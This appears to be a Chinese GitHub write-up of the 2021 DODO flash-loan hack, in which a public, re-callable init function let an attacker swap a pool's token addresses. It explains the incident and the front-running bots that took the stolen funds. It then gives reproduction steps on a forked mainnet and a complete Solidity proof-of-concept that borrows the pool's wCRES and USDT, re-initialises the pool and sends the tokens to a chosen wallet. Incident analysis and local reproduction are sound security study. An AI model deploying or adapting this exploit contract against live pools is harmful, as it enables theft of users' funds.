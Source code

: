 # 0x00 概述

2021年3月,去中心化交易平台 DODO被黑客攻击，仅仅 wCRES/USDT V2 一个交易对就被转走价值近 98 万美元的 wCRES 和近 114 万美元的 USDT.

漏洞原理其实比较简单，一句话描述就是`Init函数为Public且可被多次调用`.

但精彩的地方在于,攻击者并没有成功拿到超200万美金的赃款,而是被Front Running Bot截了胡.

# 0x01 事件分析

* 攻击合约
```
0x910FD17B9Bfc42A6eEA822912f036EF5a080Be8A
```

* 攻击交易
```
0x395675b56370a9f5fe8b32badfa80043f5291443bd6c8273900476880fb5221e
```
![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/attack_tx.png)

* 问题代码如下

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/vul_code.png)

> 攻击者首先生成两种垃圾Token


> 调用 `wCRES/USDT` 交易对合约的flashLoan函数 借出上百万美金的wCRES 和USDT


> 通过init 函数把两个Token 地址改为自己刚刚生成的两个垃圾Token


> 并把垃圾Token 还给交易对合约, 躲过require的检查

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/require.png)

> 讽刺的是该合约声明了`notInitialized`的modifier,但却并没有使用...

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/modifier.png)

> 好玩的地方来了, 也许是攻击合约中的`Transfer Back`函数命名过于普通?

> 并且同样为`Public`权限

> 攻击者两次想把赃款从合约中提取出来的行为都被Bot监控到并且抢先提款,攻击者提了个寂寞...

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/Front%20Running.png)

> 只能说Dark Forest名不虚传.

# 0x02 复现方法

* 攻击事件发生在高度为`12000165`的块上, 所以我们可以选稍早的块去Fork以太坊的主网

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@12000000
```

* 通过ERC20Factory 生成两个垃圾Token 

> 由于ganache拿不到正确的返回值，也查不到Event 

> 所以需要修改一下ERC20Factory合约

> 这样才能查到新生成的Token地址是什么...

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/erc20_newToken.png)

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/ERC20_factory.png)

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/Add_Token_On_Metamask.png)

* 为了方便我已经手动把两个垃圾Token 打给了`wCRES/USDT` 交易对合约

* 攻击合约如下

```js
/**
 *Submitted for verification at Etherscan.io on 2021-01-22
*/

/*

    Copyright 2020 DODO ZOO.
    SPDX-License-Identifier: Apache-2.0

*/

pragma solidity 0.6.9;
pragma experimental ABIEncoderV2;

interface DVM{
    
    function flashLoan(
        uint256 baseAmount,
        uint256 quoteAmount,
        address assetTo,
        bytes calldata data
    ) external;
    
    function init(
        address maintainer,
        address baseTokenAddress,
        address quoteTokenAddress,
        uint256 lpFeeRate,
        address mtFeeRateModel,
        uint256 i,
        uint256 k,
        bool isOpenTWAP
    ) external;        
    
}


interface Token {
    function balanceOf(address account) external view returns (uint);
    function transfer(address recipient, uint amount) external returns (bool);
}


interface USDT{
    //USDT 并没有完全遵循 ERC20 标准 所以其接口需单独定义
    function transfer(address to, uint value) external;
    function balanceOf(address account) external view returns (uint);
}


contract poc{
    
    
    uint256 wCRES_amount =  130000000000000000000000;
    
    uint256 usdt_amount =  1100000000000;
    
    address wCRES_token = 0xa0afAA285Ce85974c3C881256cB7F225e3A1178a;
    
    address usdt_token = 0xdAC17F958D2ee523a2206206994597C13D831ec7;
    
    address maintainer = 0x95C4F5b83aA70810D4f142d58e5F7242Bd891CB0;
    

    // 这里是刚生成的Token1地址
    address token1 = 0xAB48b42e6a98e671ff58338D5dD2fE44409b82D6;
    // 这里是刚生成的Token2地址
    address token2 = 0x1469A47A1700Cdf4cF030c0Fc7F2f45F24008228;
    
    uint256 lpFeeRate = 3000000000000000;
    
    address mtFeeRateModel = 0x5e84190a270333aCe5B9202a3F4ceBf11b81bB01;
    
    uint256 i = 1;
    
    uint256 k = 1000000000000000000;
    
    bool isOpenTWAP = false;
    

    // 这里填你的测试地址
    address  wallet = 0x;
    
    address dvm_wCRES_USDT =  0x051EBD717311350f1684f89335bed4ABd083a2b6;
    
    function attack() public {
        
        address me = address(this);
        DVM DVM_wCRES_USDT = DVM(dvm_wCRES_USDT);
        DVM_wCRES_USDT.flashLoan(wCRES_amount,usdt_amount,me,"0x");
        
    }

    
    function DVMFlashLoanCall(address a, uint256 b, uint256 c, bytes memory d) public{
        
        DVM DVM_wCRES_USDT = DVM(dvm_wCRES_USDT);
        DVM_wCRES_USDT.init(maintainer,token1,token2,lpFeeRate,mtFeeRateModel,i,k,isOpenTWAP);
        
        Token(wCRES_token).transfer(wallet, Token(wCRES_token).balanceOf(address(this)));
        USDT(usdt_token).transfer(wallet, Token(usdt_token).balanceOf(address(this)));
        
    }

}
```

* 攻击

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/attack.png)

* 成功

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/Success.png)
